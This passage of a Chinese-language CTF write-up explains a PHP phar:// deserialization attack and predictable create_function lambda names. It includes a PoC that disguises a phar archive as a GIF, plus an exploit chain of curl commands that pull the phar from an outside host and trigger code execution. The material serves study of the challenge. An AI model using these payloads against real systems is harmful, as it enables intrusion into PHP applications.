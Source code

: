 [https://github.com/php/php-src/blob/238916b5c9b7d09a711aad5656710eb4d1a80518/ext/phar/phar.c#L609](https://github.com/php/php-src/blob/238916b5c9b7d09a711aad5656710eb4d1a80518/ext/phar/phar.c#L609)

![image.png-72.4kB][2]

当使用`phar://`协议读取文件的时候，文件内容会被解析成phar对象，然后phar对象内的Metadata信息会被反序列化。这样我们就能构造一个我们想要的admin类了

这样我们就可以通过文件读取漏洞实现一个反序列化漏洞了。

这里poc来自于p师傅的小密圈@代码审计

```
<?php
class Admin {
	public $avatar = 'orz';  
} 
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.gif');
?>
```

当我们能够获取一个反序列化的admin对象之后，我们遇到了新的问题。

```
$FLAG    = create_function("", 'die(`/read_flag`);');
```

获取flag的函数是通过`create_function`，并没有设置函数名字，但其实这里声明的函数是有函数名的，匿名函数会被设置为`\x00lambda_%d`，这里的%d是顺序递增的。

我们仍然可以从php的源码里找到这个问题

[https://github.com/php/php-src/blob/d56a534acc52b0bb7d61ac7c3386ab96e8ca4a97/Zend/zend_builtin_functions.c#L1914](https://github.com/php/php-src/blob/d56a534acc52b0bb7d61ac7c3386ab96e8ca4a97/Zend/zend_builtin_functions.c#L1914)

```
		do {
			ZSTR_LEN(function_name) = snprintf(ZSTR_VAL(function_name) + 1, sizeof("lambda_")+MAX_LENGTH_OF_LONG, "lambda_%d", ++EG(lambda_count)) + 1;
		} while (zend_hash_add_ptr(EG(function_table), function_name, func) == NULL);
		RETURN_NEW_STR(function_name);
	} else {
		zend_hash_str_del(EG(function_table), LAMBDA_TEMP_FUNCNAME, sizeof(LAMBDA_TEMP_FUNCNAME)-1);
		RETURN_FALSE;
```

这里的%d会一直递增到最大长度直到结束，这里我们可以通过大量的请求来迫使Pre-fork模式启动的Apache启动新的线程，这样这里的%d会刷新为1，就可以预测了。

在orange公布的writeup中可以得到它使用的脚本以及exp
```
# get a cookie
$ curl http://host/ --cookie-jar cookie

# download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# force apache to fork new process
$ python fork.py &

# get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```



  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png